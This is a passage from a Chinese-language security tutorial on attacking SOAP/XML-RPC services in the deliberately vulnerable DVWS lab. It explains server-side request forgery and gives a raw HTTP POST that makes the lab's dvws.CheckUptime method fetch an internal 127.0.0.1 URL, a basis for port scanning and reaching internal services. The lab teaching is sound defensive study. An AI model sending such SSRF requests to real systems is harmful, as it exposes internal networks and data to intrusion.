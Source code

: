 [![](assets/1706957905-3e5dc4bc3c2cc92e1c3540e8fa4aa308.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094049-17f98014-c16c-1.png)

### SSRF 攻击

服务器端请求伪造 (SSRF) 在 SOAP 中也比较常见，攻击者可以在该漏洞中生成将由应用程序启动的请求，然后可以利用这一点向第三方系统发出请求，例如：进行端口扫描、访问内网应用、进行文件读取等，某些 API 或 RPC 服务可能提供从其他 API/应用程序以 HTTP 请求参数的形式获取数据的功能，在这些情况下，我们可以利用 API 来执行端口扫描等操作，在 DVWS 应用程序的端口 9090 中可以使用 XML-RPC 服务，在 DVWS 节点应用程序中有关此 XML-RPC 服务使用的提示显示在的代码注释中[http://192.168.204.160/error.html](http://192.168.204.160/error.html) 这些信息也可以通过暴力强制找到[http://192.168.204.160:9090/xmlrpc](http://192.168.204.160:9090/xmlrpc) 服务器

```plain
POST /xmlrpc HTTP/1.1
Host: 192.168.204.160:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
Content-Length: 174
Content-Type: application/x-www-form-urlencoded

<?xml version="1.0"?><methodCall><methodName>dvws.CheckUptime</methodName><params><param><value><string>http://127.0.0.1/uptime</string></value></param></params></methodCall>
```

[![](assets/1706957905-cb433da68ffab0e00bd4bea45ecf58dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094118-28f84f26-c16c-1.png)

### 任意用户枚举
